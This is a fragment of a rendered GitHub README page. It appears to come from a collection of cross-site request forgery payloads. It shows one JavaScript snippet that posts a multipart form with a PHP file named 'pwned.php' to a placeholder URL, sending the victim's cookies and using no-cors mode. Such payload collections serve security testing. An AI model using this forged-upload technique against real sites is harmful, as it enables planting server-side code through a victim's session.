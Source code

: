     </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-multipartform-data-post-request" class="anchor" aria-hidden="true" href="#multipartform-data-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>multipart/form-data POST request</h3>
<div class="highlight highlight-source-js position-relative overflow-auto"><pre><span class="pl-s1">myFormData</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">FormData</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-k">var</span> <span class="pl-s1">blob</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">Blob</span><span class="pl-kos">(</span><span class="pl-kos">[</span><span class="pl-s">"&lt;?php phpinfo(); ?&gt;"</span><span class="pl-kos">]</span><span class="pl-kos">,</span> <span class="pl-kos">{</span> <span class="pl-c1">type</span>: <span class="pl-s">"text/text"</span><span class="pl-kos">}</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-s1">myFormData</span><span class="pl-kos">.</span><span class="pl-en">append</span><span class="pl-kos">(</span><span class="pl-s">"newAttachment"</span><span class="pl-kos">,</span> <span class="pl-s1">blob</span><span class="pl-kos">,</span> <span class="pl-s">"pwned.php"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-en">fetch</span><span class="pl-kos">(</span><span class="pl-s">"http://example/some/path"</span><span class="pl-kos">,</span> <span class="pl-kos">{</span>
    <span class="pl-c1">method</span>: <span class="pl-s">"post"</span><span class="pl-kos">,</span>
    <span class="pl-c1">body</span>: <span class="pl-s1">myFormData</span><span class="pl-kos">,</span>
    <span class="pl-c1">credentials</span>: <span class="pl-s">"include"</span><span class="pl-kos">,</span>
    <span class="pl-c1">headers</span>: <span class="pl-kos">{</span><span class="pl-s">"Content-Type"</span>: <span class="pl-s">"application/x-www-form-urlencoded"</span><span class="pl-kos">}</span><span class="pl-kos">,</span>
    <span class="pl-c1">mode</span>: <span class="pl-s">"no-cors"</span>
<span class="pl-kos">}</span><span class="pl-kos">)</span><span class="pl-kos">;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="myFormData = new FormData();
var blob = new Blob([&quot;<?php phpinfo(); ?>&quot;], { type: &quot;text/text&quot;});
myFormData.append(&quot;newAttachment&quot;, blob, &quot;pwned.php&quot;);
fetch(&quot;http://example/some/path&quot;, {
    method: &quot;post&quot;,
    body: myFormData,
    credentials: &quot;include&quot;,
    headers: {&quot;Content-Type&quot;: &quot;application/x-www-form-urlencoded&quot;},
    mode: &quot;no-cors&quot;
});
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
